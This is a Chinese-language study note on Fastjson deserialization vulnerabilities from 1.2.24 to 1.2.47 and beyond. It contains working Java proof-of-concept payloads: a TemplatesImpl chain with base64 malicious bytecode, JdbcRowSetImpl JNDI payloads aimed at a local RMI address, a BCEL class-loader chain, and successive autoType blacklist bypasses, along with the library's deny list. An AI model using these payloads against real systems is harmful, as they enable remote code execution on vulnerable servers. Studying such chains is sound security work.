

# Fastjson 的反序列化漏洞

1. 文章写的前后时间跨度大，风格可能不统一。

2. 文章主要参考白日梦组长和 su18 两位师傅。

    > su18：https://su18.org/post/fastjson/#2-fastjson-1225
    > 白日梦组长：https://www.bilibili.com/video/BV1bG4y157Ef/?spm_id_from=333.999.0.0

## 1. 漏洞探测

### 1.1 有错误回显

1. 直接传一个没有正确闭合的 json 数据，它如果有错误回显，那么其肯定包含 Fastjson 字样

### 1.2 没有错误回显

#### 1.2.1 利用 `java.net.Inet[4|6]Address` 类 -- DNSLog

1. > **https://blog.csdn.net/Adminxe/article/details/105918000**

## 2. 漏洞基本原理

### 2.1 Fastjson 另外的用法

1. 一般 Fastjson 的作用在于将一个 JSON 格式的字符串进行解析，解析成 `JSONObject` 后可以通过键取值。

2. 然而，Fastjson 还有**“将 JSON 格式的字符串转换成 JavaBean”**的功能。
    ```java
    JavaBean javaBean = JSON.parseObject(jsonStr, JavaBean.class);
    ```

### 2.2 JSON 中特殊的 key

1. 顺着 2.1 中 Fastjson 额外的思路向下，如果传入的 JSON 格式的字符串中有键为 `@type` 的一对键值对，那么它就会**按照 `@type` 对应的值的类**来解析字符串并生成对应的 JavaBean：
    ```json
    {
    	"@type":"com.endlessshw.fastjsonprinciple.bean.User",
        "username":"admin",
        "password":"123456"
    }
    ```

    那么它就会将 JSON 内的数据解析成一个 JavaBean。

### 2.3 解析成 JavaBean 时的特殊动作

1. 参考：

    > https://www.cnblogs.com/Aurora-M/p/15683941.html

2. JSON 的序列化分为两种：`JSON.parse()` 和 `JSON.parseObject()`。

3. 两者的区别在于，`parseObject()` 本质上同样是调用 `parse()` 进行反序列化的，**只是在最后多了一步 `JSON.toJSON()` 操作。**
    因此 `parseObject()` 在解析成 JavaBean 时，其中的 `JSON.toJSON()` **会通过调用目标 JavaBean 的所有 setter、getter 方法来实例化**一个 JavaBean。
    **但是 `parse()` 调用的 setter 和 getter 是有条件的**：对于 setter，其需要满足：
    方法名长于 4，以 set 开头且第4位是大写字母、非静态方法、返回类型为 void 或当前类、参数个数为 1 个。正常的 setter 就满足上述条件，当然，正常的 setter 内部还要给属性赋值，这里就不需要。
    具体的源码详见：`JavaBeanInfo`：
    
    但是对于 getter，其满足的条件较为苛刻：
    方法名长于 4、不是静态方法、以 get 开头且第4位是大写字母、方法不能有参数传入、**返回值继承自 `Collection`|`Map`|`AtomicBoolean`|`AtomicInteger`|`AtomicLong`**、**对应属性没有 setter 方法**：
    

4. su18 师傅的结论是 `parse()` 会解析字符串获取 `@type` 指定的类，而 `JSON.parseObject(jsonString, Target.class)` 则会直接使用参数中的 class。
    因此总的来看，`parseObject()` 的利用面要更大一点。

### 2.4 原理示例

1. 由上述三点，可以构建出一个最基本的漏洞原型。先创建一个 JavaBean 类，这个 JavaBean 类的 setter 方法执行命令，然后传入一个 JSON 格式的，带有 `@type` 的字符串让其解析，从而触发 getter、setter。

2. JavaBean 类如下：
    ```java
    package com.endlessshw.fastjsonprinciple.bean;
    
    import lombok.AllArgsConstructor;
    import lombok.Data;
    import lombok.NoArgsConstructor;
    
    import java.io.IOException;
    
    /**
     * @author hasee
     * @version 1.0
     * @description: 随便的用户类
     * @date 2023/4/20 10:11
     */
    @AllArgsConstructor
    @NoArgsConstructor
    public class User {
        private String username;
        private String password;
    
        public String getUsername()  {
            return username;
        }
    
        public String getPassword() {
            return password;
        }
    
        // 注意这里有恶意的代码
        public void setUsername(String username) throws IOException {
            Runtime.getRuntime().exec("calc");
            this.username = username;
        }
    
        public void setPassword(String password) {
            this.password = password;
        }
    }
    ```

3. 测试类：
    ```java
    @Test
    public void testFastjson() {
        String json = "{\"@type\":\"com.endlessshw.fastjsonprinciple.bean.User\",\"username\":\"admin\",\"password\":\"123456\"}";
        JSONObject jsonObject = JSON.parseObject(json);
        System.out.println(jsonObject);
    }
    ```

### 2.5 此反序列化非彼反序列化

1. Fastjson 的序列化并没有实现 Serializable 接口：
    
2. 此外，[从 2.3 可知](# 2.3 解析成 JavaBean 时的特殊动作)，常见的序列化实际上触发点是 `readObject()`，而 Fastjson 的触发点是满足条件的 getter/setter 方法。
3. 但是大体的思路是相同的，总之入手点就是从 getter/setter 中寻找能执行恶意方法的。

## 3. Fastjson 1.2.24

### 3.1 `TemplatesImpl` 链

1. 在 CC2 中对 `TemplatesImpl` 的调用链进行的剖析，然而在 Fastjson 中，它也是一条可以利用的链，但是触发条件比较苛刻。先来回顾它触发的流程：
    `newTransformer()` -> `getTransletInstance()` -> `defineTransletClasses` -> `getTransletInstance()._class[_transletIndex].newInstance()`。
    可以看到源头在 `newTransformer()`，但是 `newTransformer()` 不是 getter/setter，因此向上找，找到了 `TemplatesImpl#getOutputProperties`。
    

2. 接下来还需要注意某些变量不为空，在 CC2 中是直接传的 `TemplatesImpl` 的具体实现类，所以某些变量可以通过反射赋值。但是 Fastjson 是通过调用 getter/setter 进行赋值，因此重新审视这些变量的赋值。先来整理以下哪些变量是需要赋值的：

    1. `_bytecodes` 中要注入恶意类字节码。
    2. `_name` 不为空。
    3. 现在多出来一项，就是 `_tfactory`，它为 `null` 时会报空指针的错误，从而导致链中断。当时为什么 CC2 的时候不需要对其赋值呢：
        
        其在 `readObject()` 中会非 `null`。
        不过在 Fastjson 这边，就需要对其赋值了。

    仔细观察一下，发现 `_bytecodes` 和 `_name` 都是有对应的 setter 进行赋值，但是 `_tfactory` 没有，**因此这条链的弊端就出来了**。想要对其赋值，就需要反序列化口处使用 `Feature.SupportNonPublicField` 参数来让私有属性赋值。

3. PoC 和入口如下：
    ```java
    // Fastjson 1.2.24，使用 javassist 辅助字节码生成
    private static void TemplatesImplGadget() throws Exception{
        // 1. 读取恶意类 bytes[]
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.getCtClass("com.endlessshw.serialization.util.Evil");
        byte[] bytes = ctClass.toBytecode();
        new TemplatesImpl();
    
        String payload = "{\n" +
            "\t\"@type\": \"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\",\n" +
            "\t\"_bytecodes\": [\"" + Base64.getEncoder().encodeToString(bytes) + "\"],\n" +
            "\t\"_name\": \"EndlessShw\",\n" +
            "\t\"_tfactory\": {},\n" +
            "\t\"_outputProperties\": {},\n" +
            "}";
        System.out.println(payload);
        JSON.parseObject(payload, Feature.SupportNonPublicField);
    }
    /*
    {
    	"@type": "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
    	"_bytecodes": ["yv66vgAAADQAOwoACwAmCgAnACgIACkKACcAKgcAKwkACgAsCAAtCAAuCAAvBwAwBwAxAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAChMY29tL2VuZGxlc3NzaHcvc2VyaWFsaXphdGlvbi91dGlsL0V2aWw7AQAKRXhjZXB0aW9ucwcAMgEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACGRvY3VtZW50AQAtTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007AQAIaGFuZGxlcnMBAEJbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsHADMBABBNZXRob2RQYXJhbWV0ZXJzAQCmKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACGl0ZXJhdG9yAQA1TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjsBAAdoYW5kbGVyAQBBTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsBAAh0b1N0cmluZwEAFCgpTGphdmEvbGFuZy9TdHJpbmc7AQAKU291cmNlRmlsZQEACUV2aWwuamF2YQwADAANBwA0DAA1ADYBAARjYWxjDAA3ADgBABBqYXZhL2xhbmcvU3RyaW5nDAA5ADoBAA5uZXdUcmFuc2Zvcm1lcgEAAzEyMwEABEV2aWwBACZjb20vZW5kbGVzc3Nody9zZXJpYWxpemF0aW9uL3V0aWwvRXZpbAEAQGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ydW50aW1lL0Fic3RyYWN0VHJhbnNsZXQBABNqYXZhL2lvL0lPRXhjZXB0aW9uAQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwEACm5hbWVzQXJyYXkBABNbTGphdmEvbGFuZy9TdHJpbmc7ACEACgALAAAAAAAEAAEADAANAAIADgAAAGQAAwABAAAAJiq3AAG4AAISA7YABFcqBb0ABbUABiq0AAYDEgdTKrQABgQSCFOxAAAAAgAPAAAAGgAGAAAAFgAEABcADQAYABUAGQAdABoAJQAbABAAAAAMAAEAAAAmABEAEgAAABMAAAAEAAEAFAABABUAFgADAA4AAAA/AAAAAwAAAAGxAAAAAgAPAAAABgABAAAAIAAQAAAAIAADAAAAAQARABIAAAAAAAEAFwAYAAEAAAABABkAGgACABMAAAAEAAEAGwAcAAAACQIAFwAAABkAAAABABUAHQADAA4AAABJAAAABAAAAAGxAAAAAgAPAAAABgABAAAAJQAQAAAAKgAEAAAAAQARABIAAAAAAAEAFwAYAAEAAAABAB4AHwACAAAAAQAgACEAAwATAAAABAABABsAHAAAAA0DABcAAAAeAAAAIAAAAAEAIgAjAAEADgAAAC0AAQABAAAAAxIJsAAAAAIADwAAAAYAAQAAACkAEAAAAAwAAQAAAAMAEQASAAAAAQAkAAAAAgAl"],
    	"_name": "EndlessShw",
    	"_tfactory": {},
    	"_outputProperties": {},
    }
    */
    ```

### 3.2 JDNI 链漏洞原理

1. JNDI 触发点：
    

2. 然后从 `getDataSourceName()` 入手，这个方法还有一个 `setDataSourceName()`，因此正好符合利用条件。

3. 开始向上找 `JdbcRowSetImpl#connect()` 的调用处，找到 `setAutoCommit()`：
    
    其实还有一个 `JdbcRowSetImpl#getDatabaseMetaData()`，不过这个方法最终会报错导致链中断。

4. 综上，通过 `setDataSourceName()` 赋值，然后通过 `setAutoCommit()` 来触发链：
    ```java
    // 有版本限制、依赖限制、而且需要出网
    String payload = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\", \"DataSourceName\":\"rmi://127.0.0.1:1099/myRemote\", \"AutoCommit\":false}";
    JSONObject jsonObject = JSON.parseObject(payload);
    ```

5. 这个链实际上有很大的限制：

    1. 版本限制（受到 JNDI 的版本限制）
    2. 依赖限制
    3. 需要出网（JDNI 链接需要出网）

6. 不过没有用到 getter，因此在 `JSON.parse() 和 JSON.parseObject()` 下都可以使用。

### 3.3 BCEL 链原理

1. 注意：要求 JDK 版本要小于 8u251，而且有 dbcp 依赖（tomcat 中）：

    > https://cloud.tencent.com/developer/article/1730722

2. 参考：

    > https://blog.csdn.net/weixin_49248030/article/details/127989449

    这里主要强调以下重点。

3. `com.sun.org.apache.bcel.internal.util.ClassLoader` 加载恶意类的代码：

    ```java
    private static void ClassLoaderGadget() throws IOException, ClassNotFoundException, InstantiationException, IllegalAccessException {
        // com.sun.org.apache.bcel.internal.util.ClassLoader 的基本的使用方法
        ClassLoader classLoader = new ClassLoader();
        byte[] bytes = fileToBinArray(new File("target/classes/Evil.class"));
        String code = Utility.encode(bytes, true);
        classLoader.loadClass("$$BCEL$$" + code).newInstance();
    }
    
    /**
         * 文件转字节码数组
         * @param file
         * @return
         */
    private static byte[] fileToBinArray(File file) {
        try {
            FileInputStream fileInputStream = new FileInputStream(file);
            return FileCopyUtils.copyToByteArray(fileInputStream);
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }
    ```

    首先是为什么在 `loadClass()` 前需要加 `$$BCEL$$`，因为只有这样才能进 `if`：
    
    其中 `class_name` 就是传入的第一个参数的值。
    进了 `if` 之后，就会调用关键方法：`createClass(class_name)`，跟进，可以看它的执行逻辑：
    
    在 `$$BCEL$$` 之后的字节码，会被 `Utility.decode()`，因此要使用 `Utility.encode()`，然后调用 `parse()`：
    
    可以看出其作用就是将 class 文件转成 `JavaClass` 。
    回到 `ClassLoader#loadClass()`，结果就是返回类的 class 对象。然后调用 `newInstance()` 实例化。

4. 知道了 `ClassLoader` 的基本使用方法后，接下来的问题在于如何调用到 `classLoader.loadClass`。Tomcat 中有个类为 `org.apache.tomcat.dbcp.dbcp2.BasicDataSource`。

    1. 首先这个类可以指定 ClassLoader，而且也可以实例化。
    2. 同时这个指定和触发都有**对应的 setter 方法**。

    在 `BasicDataSource#createConnectionFactory()` 中，使用了类加载器和类：
    
    高版本中（dbcp 8.5.78)，这里的运行逻辑发生了改变，但是最终执行的结果不变。
    指定 ClassLoader 在 `BasicDataSource#setDriverClassName()` 和 `BasicDataSource#setDriverClassLoader()` 的两个 set 方法中。
    最终触发对象实例化的点在 `BasicDataSource#getConnection()`，一路执行，最终到上面的两个 set 方法。

5. 得到的最终 payload 如下：
    ```java
    private static void ClassLoaderGadget() throws IOException, ClassNotFoundException, InstantiationException, IllegalAccessException, SQLException {
        // com.sun.org.apache.bcel.internal.util.ClassLoader 的基本的使用方法
        ClassLoader classLoader = new ClassLoader();
        byte[] bytes = fileToBinArray(new File("target/classes/Evil.class"));
        String code = Utility.encode(bytes, true);
        // classLoader.loadClass("$$BCEL$$" + code).newInstance();
    
        // BasicDataSource basicDataSource = new BasicDataSource();
        // basicDataSource.setDriverClassLoader(classLoader);
        // basicDataSource.setDriverClassName("$$BCEL$$" + code);
        // basicDataSource.getConnection();
    
        // payload
        String payload = "{\"@type\":\"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\"," +
            "\"DriverClassName\":\"$$BCEL$$" + code + "\"," +
            "\"DriverClassLoader\":{\"@type\":\"com.sun.org.apache.bcel.internal.util.ClassLoader\"}}";
        JSONObject jsonObject = JSON.parseObject(payload);
    
    }
    ```

    由于调用的是 `parseObject()`，因此最终的 `getConnection()` 会自动调用。

## 4. Fastjson 1.2.25 - 47 基本通杀链 - 基于 `JdbcRowSetImpl` 出网链

### 4.1 1.2.25 - 1.2.32 未开启 `autoTypeSupport`

1. 对比 1.2.24，该版本多了一步：
    
    原先 1.2.24 时，这里直接进行类加载，但是现在这里多了个检查函数。

2. 分析该函数的逻辑：
    

    一般情况下，`autoTypeSupport = false`，然后 `expectClass` 为 null。
    根据上述变量条件，首先黑白名单基本不考虑，再根据逻辑判断，最终选择走 `clazz == null` 的分支，最终也就是走 `expectClass != null && !expectClass.isAssignableFrom(clazz)`，显然 `expectClass!=null` 返回 false，所以必定会返回 `clazz`。但走这就要求 `clazz` 要不为空，而 `clazz` 是从缓存中获取的。
    
    那么接下来就是想办法“如何往缓存中插入恶意类，从而绕过黑白名单检测”

3. 跟进上述方法，
    
    寻找 `mappings` 的 usage，找到 `put` 的地方，最终确定在 `TypeUtils#loadClass()` 中。
    
    然后再找这个方法的 usage。最终在 `MiscCodec#deserialze()` 中：
    
    观察一下，`MiscCodec` 继承了 `ObjectSerializer, ObjectDeserializer` ，所以它应该是序列化与反序列化器，然后在 `ParserConfig` 类中，`deserializers` 中存放了不同的类所对应的序列化器：
    然后 `MiscCodec#deserialze()` 正是它反序列化时调用的方法，其中的 clazz 就是被序列化类的 class 字节码类型。
    因此，**如果传入一个 `Class` 类给反序列化**，那么 Fastjson 就会调用 `MiscCodec#deserialze()` 进行处理，然后就会进入到 `loadClass()` 中，从而会将传入的 `strVal` 所代表的类放入缓存中。
    如果 `strVal` 指代的是恶意类，那么就把恶意类放入到缓存中，这样就会绕过黑白名单检测。所以要向 `strVal` 中赋值。
    
    todo 我也不懂为什么要往 `val` 中赋值，但 `val` 赋值后确实会到 `strVal` 中。

4. 最终 payload 如下：
    ```java
    private static void Bypass1_2_25_JNDI() {
        String payload = "{{\"@type\":\"java.lang.Class\", \"val\":\"com.sun.rowset.JdbcRowSetImpl\"}," +
            "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\", \"DataSourceName\":\"rmi://127.0.0.1:1099/myRemote\", \"AutoCommit\":false}}";
        JSON.parse(payload);
    }
    ```

### 4.2 1.2.33 - 1.2.47 通杀情况

1. 依旧是这个链，但是在 [1.2.33, 1.2.47] 版本之间却不再受 `autoTypeSupport` 的限制，这是为什么呢？来看 1.2.25 和 1.2.47 之间的代码对比：
    
    判断是否是恶意类的逻辑由原先的“先黑名单匹配，然后从缓存中找”变成了“黑名单匹配且不在缓存中”，这就增加了逻辑漏洞，如果事先在缓存中存放恶意类的话，就会绕过改逻辑。所以这就是高版本反而不受 `autoTypeSupport` 限制的原因。

2. PoC 和靶场示例如下：
    ```java
    private static void Bypass1_2_25_JNDI() {
        // 测试一下高版本开启 autoType 下这个链是否能执行
        // ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String payload = "{{\"@type\":\"java.lang.Class\", \"val\":\"com.sun.rowset.JdbcRowSetImpl\"}," +
            "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\", \"DataSourceName\":\"rmi://127.0.0.1:1099/myRemote\", \"autoCommit\":0}}";
        System.out.println(payload);
        JSON.parse(payload);
    }
    ```

## 5. Fastjson 1.2.25 - 1.2.47 其他的绕过方式 - 开启 `autoTypeSupport`

### 5.1 1.2.25 - 1.2.41

1. 官方新增了 checkAutoType 安全机制，增加了黑白名单：
    ```java
    private String[] denyList = "bsh,com.mchange,com.sun.,java.lang.Thread,java.net.Socket,java.rmi,javax.xml,org.apache.bcel,org.apache.commons.beanutils,org.apache.commons.collections.Transformer,org.apache.commons.collections.functors,org.apache.commons.collections4.comparators,org.apache.commons.fileupload,org.apache.myfaces.context.servlet,org.apache.tomcat,org.apache.wicket.util,org.codehaus.groovy.runtime,org.hibernate,org.jboss,org.mozilla.javascript,org.python.core,org.springframework".split(",");
    private String[] acceptList = AUTO_TYPE_ACCEPT_LIST;
    ```

2. 通杀的方式基本上是基于它 `checkAutoType()` 的逻辑漏洞，而现在跟进它的 `com.alibaba.fastjson.util.TypeUtils#loadClass` 来寻找漏洞：
    
    这段可知，如果类名开头是 `[` 或者 `L 开头 ; 结尾` 时，其会将这些内容去除然后再反序列化，那么这就给了绕过黑名单一个思路。

3. 知道了漏洞的触发点后，现在就要回顾一下 `checkAutoType` 的逻辑了，哪些是可以利用的地方呢？

    1. 在未开启 `autoTypeSupport` 的情况下，程序会先走到：
        
        然后没有通过白名单后，接着向下走，最终走到
        
        所以未开启 `autoTypeSupport` 就不会执行。
    2. 开启了 `autoTypeSupport` 后，就会走：
        
        从而触发漏洞。

4. 直接上 PoC：

    ```java
    private static void Fastjson_1_2_41_Gadget() {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String payload = "{{\"@type\":\"java.lang.Class\", \"val\":\"com.sun.rowset.JdbcRowSetImpl\"}," +
            "{\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\", \"DataSourceName\":\"rmi://127.0.0.1:1099/myRemote\", \"autoCommit\":0}}";
        JSON.parse(payload);
    }
    ```

### 5.2 1.2.42 

1. 1.2.42 更新如下内容：

    > 1.2.42 fastjson 继续延续了黑白名单的检测模式，但是将黑名单类从白名单修改为使用 HASH 的方式进行对比，这是为了防止安全研究人员根据黑名单中的类进行反向研究，用来对未更新的历史版本进行攻击。同时，作者对之前版本一直存在的使用类描述符绕过黑名单校验的问题尝试进行了修复。

    `ParserConfig` 发生修改：
    

    然后就是使用 Hash 判断，同时针对之前的 Payload ，在最初进行一次过滤：
    

2. 但是过滤也就一次，而且 `TypeUtils.loadClass` 是递归的对 `L` 和 `;` 进行处理，所以可以通过双写绕过：
    ```java
    private static void Fastjson_1_2_42_Gadget() {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String payload = "{{\"@type\":\"java.lang.Class\", \"val\":\"com.sun.rowset.JdbcRowSetImpl\"}," +
            "{\"@type\":\"LLcom.sun.rowset.JdbcRowSetImpl;;\", \"DataSourceName\":\"rmi://127.0.0.1:1099/myRemote\", \"autoCommit\":0}}";
        JSON.parse(payload);
    }
    ```

### 5.3 1.2.25 - 1.2.43

1. 官方再次更新，只要连续出现两个 `[` 就报错。

2. 但是目光转向了 `[`，但是单独使用 `[` 好像没法绕过，最终会因为字符串长度不一致而报错：
    
    具体来看报错原因：
    
    说是 110 的位置需要一个 `[`，但是现在是 `,`，那再改：
    
    最终好了：
    

3. 至于为什么这样加，反正和他底层的解析有关，总之 PoC 这样改造后如下：
    ```java
    private static void Fastjson_1_2_43_Gadget() {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        // String payload = "{\"@type\":\"[com.sun.rowset.JdbcRowSetImpl\"[, {\"DataSourceName\":\"rmi://127.0.0.1:1099/myRemote\", \"autoCommit\":false}";
        String payload = "{{\"@type\":\"java.lang.Class\", \"val\":\"com.sun.rowset.JdbcRowSetImpl\"}," +
            "{\"@type\":\"[com.sun.rowset.JdbcRowSetImpl\"[, {\"DataSourceName\":\"rmi://127.0.0.1:1099/myRemote\", \"autoCommit\":0}}";
        System.out.println(payload);
        JSON.parse(payload);
    }
    ```

### 5.4 1.2.25 - 1.2.45

1. 隔壁 Jackson 爆出来一个新的利用类，所以这边 Fastjson 的黑名单也就不行了。

2. 前提依赖：
    Mybatis Version：3.x.x < 3.5.0

3. PoC：
    ```java
    private static void JndiDataSourceFactoryGadget() {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String payload = "{\n" +
            "    \"@type\":\"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory\",\n" +
            "    \"properties\":{\n" +
            "        \"data_source\":\"rmi://127.0.0.1:1099/myRemote\"\n" +
            "    }\n" +
            "}";
        JSON.parse(payload);
    }
    ```

## 6. 1.2.68 之前

1. 在 1.2.48 后，官方针对“缓存”进行修复，来看一下前后的代码对比：
    
    多出来了这个 false，那就跟进 `TypeUtils.loadClass()` 来一探究竟：
    
    多了个标志位进行判断，不让提前塞入缓存了。
2. 同时官方还更新了一个 safeMode，如果开启 safeMode，那么就直接抛出错误，不管你 `autoType` 是否开启。
    
    所以如果开启了 safeMode，那基本也是没得操作了。
    不过还是得探讨开启了 `autoType` 的绕过方式。
3. 多个版本之后，部分判断逻辑发生改变，暂时就不整理了。

### 6.1 `Throwable` 链

1. 原理：

    > 直接看 su18 的文章吧：
    > https://su18.org/post/fastjson/#8-fastjson-1268

2. 利用条件是要有高危操作的 `Throwable` 子类，所以目前没有通用的 Gadget。

### 6.2 `AutoCloseable` 链

1. TODO

## 7. 1.2.25-47 BCEL 链失效原因

1. 即使通过两次反序列化 `Class` 类向缓存中放入恶意对象，但是由于反序列化 `BasicDataSource` 时，其内部的 `DriverClassLoader` 由于又指定了一个类，从而导致进入：
    
    最终执行：
    `config.checkAutoType(typeName, expectClass)` 去实例化 `BasicDataSource` 内部的 `com.sun.org.apache.bcel.internal.util.ClassLoader`，由于 `expectClass` 不为空了，因此进入黑白名单判断的逻辑当中，从而绕过失败！


### 4.3 1.2.47 前 `autoTypeSupport` 为 true 的绕过

1. 详见：

    > https://www.cnblogs.com/Aurora-M/p/15683941.html
    > https://www.cnblogs.com/cmx666/p/15136664.html

### 4.4 高版本绕过学习 todo

1. https://www.anquanke.com/post/id/232774#h2-19


